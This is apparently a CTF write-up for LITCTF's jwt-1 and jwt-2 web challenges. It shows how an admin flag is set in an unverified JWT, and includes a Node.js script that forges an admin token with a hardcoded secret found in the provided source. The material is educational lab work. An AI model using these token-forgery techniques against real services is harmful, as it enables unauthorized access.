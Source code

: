 ```yaml
---
title: JWT ( Both Parts )
date : 2024-08-13 10:00:00 +0530
categories: [litctf]
tags: [litctf, ctf]
description: jwt-1, jwt-2
---
```


> I will be writing the solution for jwt-1 and jwt-2 in the same post because the solution is the similar.
{: .prompt-info}

## Description

**jwt-1**

I just made a website. Since cookies seem to be a thing of the old days, I updated my authentication! With these modern web technologies, I will never have to deal with sessions again.

Come try it out at http://litctf.org:31781/.

**jwt-2**

its like jwt-1 but this one is harder URL: http://litctf.org:31777/

## JWT-1

The website is a simple login page. After registering we can login and jwt token is generated.

We have to visit `/flag` to get the flag. But it will show you unauthorized if you do not have the permission.

### JWT Token

Lets examine the JWT token.

A JWT token is split into 3 parts using the `.` character. The first part is the header, the second part is the payload, and the third part is the signature. The token is base64 encoded.

![jwt](/assets/posts/LITCTF/jwt-structure.webp)

I use [jwt.io](https://jwt.io/) to decode the token.

This is the payload of the given token.

```json
{
  "name": "cookie",
  "admin": false
}
```

The `admin` field is set to `false`. We need to change it to `true`.

So that is exactly what I did. I changed the `admin` field to `true` and the website gave me the updated token.

`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiY29va2llIiwiYWRtaW4iOmZhbHNlfQ.fqrKVonVIm88m4vn4Ob0ZQ8LfcEXRnKs6Omj+ELYoWg`

Using devtools I updated the token and visited `/flag` to get the flag.

![flag](/assets/posts/LITCTF/jwt1.png)

We got the flag because the signature is not verified. The signature is used to verify the integrity of the token.

> `Flag: LITCTF{o0ps_forg0r_To_v3rify_1re4DV9}`

## JWT-2

In JWT we were given the source code of the website. I will highlight the interesting parts of the code below.

### Source Code Analysis

Cookie Generator

```ts
import crypto from "crypto";

const jwtSecret = "xook";
const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payload: object) => {
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
    const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayload).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayload + "." + signature;
}
```

Cookie Signature Check

```ts
// verify signature
const expectedSignature = crypto.createHmac('sha256', jwtSecret).update(header + '.' + payload).digest('base64').replace(/=/g, '');
if (signature !== expectedSignature) {
    return res.status(403).send('Unauthorized ;)');
}
```

This time they did not forget to verify the signature. So we cannot change the payload directly without signing it using the secret key.

The problem was made very simple because the whole source code was provided.

### Token Manipulation

I usually use [`jwt_tool`](https://github.com/ticarpi/jwt_tool) for jwt token manipulation. But this time when I used it, the signed token was not accepted by the website. So I figured there was something different in their token generator.

So I used their own code to generate the token. ( I converted to js )

```js
const crypto = require('crypto');
const jwtSecret = "xook";

const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payload = { "name": "cookie", "admin": true }) => {  //PAYLOAD
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
  const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayload).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayload + "." + signature;

}

console.log(sign()); //eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiY29va2llIiwiYWRtaW4iOnRydWV9.Pg3feBG3DxL//Judd6soWFx+YG52N2LJxVJkC5Y97lY
```

> `Flag: LITCTF{v3rifyed_thI3_Tlme_1re4DV9}`

### Why python didn't work?

Well the signature generated by the python tool was actually `better` but code which was used to generate the jwt was a lil different.

The tokens:-

```bash
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiY29va2llIiwiYWRtaW4iOnRydWV9.Pg3feBG3DxL__Judd6soWFx-YG52N2LJxVJkC5Y97lY  # python
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiY29va2llIiwiYWRtaW4iOnRydWV9.Pg3feBG3DxL//Judd6soWFx+YG52N2LJxVJkC5Y97lY  # js
```

The python code was generating the signature with `-` and `_`  and the js code was generating the signature with `+` and `/` So the signature was not matching.

What python was doing is producing the token with url-safe base64 encoding and js was using basic base64 encoding.

---

[back to index](https://p-pratik.github.io/posts/LIT-Index/)